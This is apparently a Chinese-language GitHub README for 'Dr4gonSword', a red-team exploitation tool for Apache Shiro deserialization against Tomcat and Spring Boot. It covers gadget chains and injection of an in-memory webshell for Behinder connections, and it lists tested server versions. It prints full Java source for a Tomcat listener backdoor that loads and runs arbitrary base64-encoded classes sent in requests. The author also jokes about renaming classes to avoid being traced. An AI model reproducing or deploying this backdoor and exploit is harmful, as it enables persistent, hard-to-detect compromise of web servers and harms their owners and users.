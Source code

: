 # Dr4gonSword

**仅供交流学习漏洞原理,请勿用于非法用途**

- [Shiro](#shiro)
  + [使用方法](#----)
  + [利用链](#---)
  + [内存马和回显方法](#--------)
  + [本地测试过的中间件版本](#-----------)

- [更新记录](#----)
  * [0.0.3](#003)
  * [0.0.2](#002)
- [未来准备更新(可能)](#----------)
- [感谢](#--)

**仅供交流学习漏洞原理,请勿用于非法用途**

版本0.0.3

在红队中发现现有shiro利用工具有些时候会注入内存马失败,于是自己写下了这个小工具,也是为了更好地了解漏洞原理与利用方式

因为刚入门JAVA,所以肯定还有很多不足,目前只有Shiro,后续随着学习会应该加入更多漏洞(大概)

## Shiro

### 使用方法

点击Inject进行注入,然后才能连接冰蝎或者执行命令

连接冰蝎的时候加get参数stage=s

![2](2.png)

![1](1.png)

### 利用链

Commons-CollectionsK1_1 和K1的区别基本上只是我用的是InstantiateTransformer,K1用的是InvokerTransformer

总结:几乎一样

### 内存马和回显方法

使用listener注入,相比于使用servlet来说,不会被shiro拦,只要tomcat能解析的路径就能上线内存马,不用怕shirofilter匹配*的情况,例如P师傅的shirodemo环境(2021强网杯hard pentest,如下图)

![](./5.png)



并且defineclass直接加载了pageContext类(有的时候没有依赖导致注入失败)

另外我这边同一个listener同时实现命令执行回显和内存马,命令执行回显可以GBK编码

核心逻辑为实现一个Listener同时继承AbstractTranslet类并且实现ServletRequestListener接口来加载任意类并调用方法

```JAVA
public class Init extends AbstractTranslet implements ServletRequestListener  {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException { }
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException { }
    public Init() throws Exception {
        super();
        super.namesArray = new String[]{"ccdr4gon"};
        WebappClassLoaderBase webappClassLoaderBase =(WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        StandardContext standardCtx = (StandardContext)webappClassLoaderBase.getResources().getContext();
        standardCtx.addApplicationEventListener(this);
    }

    @Override
    public void requestDestroyed(ServletRequestEvent sre) {}
    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        try {
            RequestFacade requestfacade= (RequestFacade) sre.getServletRequest();
            Field field = requestfacade.getClass().getDeclaredField("request");
            field.setAccessible(true);
            Request request = (Request) field.get(requestfacade);
            if (request.getParameter("stage").equals("init")) {
                StringBuilder sb = new StringBuilder("");
                BufferedReader br = request.getReader();
                String str;
                while ((str = br.readLine()) != null) {
                    sb.append(str);
                }
                byte[] payload = Base64.getDecoder().decode(sb.toString());
                Method defineClass = Class.forName("java.lang.ClassLoader").getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
                defineClass.setAccessible(true);
                Class clazz = (Class) defineClass.invoke(Thread.currentThread().getContextClassLoader(), payload, 0, payload.length);
                clazz.newInstance();
            }
        }catch (Exception ignored){ }
    }
}
```

### 本地测试过的中间件版本

Tomcat 7.0.109 √

Tomcat 8.5.51 √

Tomcat 9.0.46 √

Springboot 2.3.5 √  <tomcat.version>9.0.39</tomcat.version> 

Springboot 2.0.5 √ <tomcat.version>8.5.51</tomcat.version>

Springboot 2.0.5 √ <tomcat.version>8.5.51</tomcat.version> shiro version 1.7.0 (gcm)

Tomcat 8.5.51 √ with commons-collections4 dependency

![3](./3.png)

![4](./4.png)

![6](./6.png)

# 更新记录

## 0.0.3

- Behinder内存马兼容性修复并且添加自定义密码(会生成一个随机密码)
- CommonsCollections4依赖的利用链(只是把.decorate改成了.lazyMap)
- 重构了controller生成payload部分的代码结构,使用factory

## 0.0.2 

- 添加Tomcat7利用链(tomcat7巨烦)
- okhttp的https证书全信任，删除了get请求的一些header（为了不触发header too large）
- 添加了GCM加密方式
- 其他记不到了的小修改

# 未来准备更新(可能)

- 依赖有点问题,目前我是直接把tomcat的lib全加到projectstructure里了
- 把类名改了,用下去的话总感觉会有一天接到溯源的电话
- shiro
  - ~~自定义Behinder的pass(现在还只能是默认的rebeyond,太惨了)~~ 0.0.3已更新
  -  ~~aes gcm加密方式(说实话也不知道有没有用)~~ 0.0.2已更新
  - ~~commons-collections4利用链~~  0.0.3已更新
  - commonsbeanutils利用链
- fastjson
- weblogic等等更多以后准备学习的JAVA漏洞
- 由于java流只能读取一次,okhttp库的IO目前处于能用就行的丑陋状态,之后看看怎么改改
- 一键清除所有listener

# 感谢

phithon

kingkk

j1anFen

Litch1

threedr3am

李三

LandGrey

Lucifaer

等公开发表过Tomcat内存马/回显以及Shiro利用方式文章的师傅


